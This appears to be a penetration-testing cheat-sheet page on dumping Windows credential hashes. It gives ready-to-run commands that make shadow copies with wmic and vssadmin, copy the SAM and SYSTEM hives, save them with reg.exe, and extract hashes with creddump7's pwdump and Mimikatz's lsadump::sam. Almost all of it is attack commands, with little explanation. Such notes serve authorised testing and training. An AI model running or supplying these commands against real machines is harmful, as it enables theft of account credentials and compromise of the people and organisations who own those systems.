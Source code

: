 # SAM/SYSTEM exfiltration

## SAM/SYSTEM exfiltration

### Shadowcopy SAM database

{% hint style="info" %}
C:\Windows\System32\config\SAM
{% endhint %}

#### Create a copy of the SAM and SYSTEM using shadowcopy

```csharp
wmic shadowcopy call create Volume='c:\'
vssadmin list shadows
```

![](../../../../.gitbook/assets/image%20%28224%29.png)

{% hint style="danger" %}
copy must be done with **cmd**.**exe**
{% endhint %}

```csharp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM .
```

![](../../../../.gitbook/assets/image%20%2891%29.png)

### Reg save SAM \(alternative\)

## 

```text
reg.exe save hklm\sam c:\test\sam
reg.exe save hklm\system c:\test\system
```

## SAM / SYSTEM decryption

### Creddump

#### Install

```csharp
 sudo apt install python-crypto
 sudo git clone https://github.com/Neohapsis/creddump7
```

```csharp
sudo pacman -Sy creddump
```

#### Usage

```csharp
pwdump SYSTEM SAM
```

![](../../../../.gitbook/assets/image%20%2867%29.png)

### Mimikatz

```text
lsadump::sam /system:C:\Users\b3v1l\Documents\test\sam\system /sam:C:\Users\b3v1l\Documents\test\sam\sam
```

![](../../../../.gitbook/assets/image%20%28309%29.png)



